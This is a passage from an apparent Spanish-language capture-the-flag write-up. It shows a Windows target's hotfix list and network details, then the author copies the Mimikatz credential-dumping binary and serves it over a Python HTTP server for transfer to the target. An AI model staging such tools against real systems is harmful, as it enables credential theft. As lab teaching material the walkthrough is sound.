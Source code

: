 ```
                           [151]: KB3127220
                           [152]: KB3133977
                           [153]: KB3137061
                           [154]: KB3138378
                           [155]: KB3138612
                           [156]: KB3138910
                           [157]: KB3139398
                           [158]: KB3139914
                           [159]: KB3140245
                           [160]: KB3147071
                           [161]: KB3150220
                           [162]: KB3155178
                           [163]: KB3156016
                           [164]: KB3156019
                           [165]: KB3159398
                           [166]: KB3161102
                           [167]: KB3161949
                           [168]: KB3161958
                           [169]: KB3170455
                           [170]: KB3170735
                           [171]: KB3172605
                           [172]: KB3177467
                           [173]: KB3179573
                           [174]: KB3181988
                           [175]: KB3184143
                           [176]: KB4014504
                           [177]: KB976902
                           [178]: KB982018
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.199.216
                                 [02]: fe80::c9f2:5e32:8b3d:76af
                                 [03]: dead:beef::cc3d:cfc8:2465:b2cb
                                 [04]: dead:beef::c9f2:5e32:8b3d:76af
```

Nos `copiamos` el `binario` de `Mimikatz` en nuestro equipo

```
# locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
# cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
```

Nos montamos un `servidor http` con `python` donde se encuentra el `binario`

```
# python -m http.server 80
```
